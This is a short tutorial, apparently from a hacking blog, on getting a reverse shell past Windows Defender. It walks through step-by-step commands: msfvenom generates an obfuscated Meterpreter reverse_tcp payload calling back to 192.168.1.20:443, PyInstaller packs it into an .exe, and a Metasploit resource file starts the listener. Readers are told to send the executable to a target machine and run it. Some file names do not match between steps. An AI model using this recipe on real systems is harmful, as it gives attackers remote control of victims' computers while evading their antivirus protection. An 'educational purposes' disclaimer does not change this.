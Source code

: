 ```yaml
---
title: Windows AV Evasion (msfvenom edition)
image: /assets/img/Anexos/rev_shell_AV_evasion.gif
description: The easiest way to achieve a reverse shell bypassing Windows Defender
categories: [Hacking, Windows]
pin: true
tags: [av-evasion, meterpreter, windows-defender]
---
```




> [!WARNING]  
> The entire article and the information shown is only for educational and informational purposes.

## Introduction

In this post, we'll explore a method to bypass Windows Defender using Python and Meterpreter to achieve a reverse shell.

> Git repo -> https://github.com/juanbelin/Windows-AV-Evasion 

## Step-by-Step Process

### 1. Creating the Payload

First, we'll use `msfvenom` to create the payload as a `.py` file using `python-reflection` for built-in obfuscation:

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.20 lport=443 -f python-reflection -o reload.py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 203846 bytes
Final size of python-reflection file: 1337649 bytes
Saved as: reload.py
```

### 2. Adding Required Libraries

We need to add `ctypes` since it's required by `python-reflection`:

```shell
nano reload.py 
```

![](/assets/img/Anexos/Windows_AV.png)


### 3. Generating the Executable

We can create the executable using PyInstaller either from Windows or through `wine`:

Using Wine:
```shell
wine pyinstaller -F hoax_shell.py --onefile
```

Or directly in Windows:
```powershell
pyinstaller -F hoax_shell.py --onefile
```

### 4. Setting Up the Listener

Create a Metasploit resource file (`test.rc`):

```shell
use payload windows/x64/meterpreter_reverse_tcp
set lhost 192.168.1.20
set lport 443 
exploit
```

Start the listener:
```bash
msfconsole -r test.rc
```

### 5. Execution

Send the `.exe` to the target machine and execute it either through GUI (RDP) or remote command execution.

![](/assets/img/Anexos/rev_shell_AV_evasion.gif)

### Listener Script Usage

The script provides a listener for incoming connections:

```shell
$ ./listiner.sh

[!] Missing parameters.

[USE] ./test.sh <LHOST> <LPORT>

Parameters:
  <LHOST>   LOCAL IP
  <LPORT>   LOCAL PORT

Example: ./test.sh 192.168.1.20 443
```
